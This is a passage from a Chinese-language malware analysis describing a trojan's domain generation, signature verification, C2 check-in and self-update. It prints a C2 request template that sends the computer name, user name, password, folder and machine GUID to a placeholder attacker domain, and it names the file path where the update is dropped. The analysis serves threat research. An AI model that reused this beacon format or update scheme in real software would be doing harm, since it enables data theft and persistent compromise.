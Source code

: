 **其中d 代表 {year} {自年初以来的天数} t 代表 当前时间**

下载的签名文件`%appdata%\\sig.tmp`使用公钥解密后与明文`%appdata%\\dom.tmp`比较是否相对应

![&#x4F7F;&#x7528;&#x516C;&#x94A5;&#x89E3;&#x5BC6;&#x4E0B;&#x8F7D;&#x7684;&#x7B7E;&#x540D;&#x6587;&#x4EF6;](../../../.gitbook/assets/image%20%28819%29.png)

当生成的域名链接不成功时，尝试生成其他域名进行重试

![&#x4F7F;&#x7528;&#x591A;&#x79CD;&#x540E;&#x7F00;&#x7684;&#x57DF;&#x540D;&#x8FDB;&#x884C;&#x8BF7;&#x6C42;](../../../.gitbook/assets/image%20%28833%29.png)

验证C2后，与C2通信发送请求检查更新

```text
http://<C2domain>/2014/?c=<计算机名>&u=<用户名>＆v =<版本>＆s =<密码>＆f=<文件夹>&mi=<machineguid_urlencoded>&b=<32/64bit>&t=<time_urlencoded>
```

![&#x4E0E;C2&#x901A;&#x4FE1;&#x68C0;&#x67E5;&#x66F4;&#x65B0;](../../../.gitbook/assets/image%20%28836%29.png)

 将更新下载回的木马保存在 ****`%temp%\\tempupd6.exe` 

![&#x5C06;&#x66F4;&#x65B0;&#x4E0B;&#x8F7D;&#x7684;&#x6728;&#x9A6C;&#x5B58;&#x5728;&#x4E34;&#x65F6;&#x76EE;&#x5F55;&#x4E0B;&#x7684;tempupd6.exe&#x4E2D;](../../../.gitbook/assets/image%20%28809%29.png)
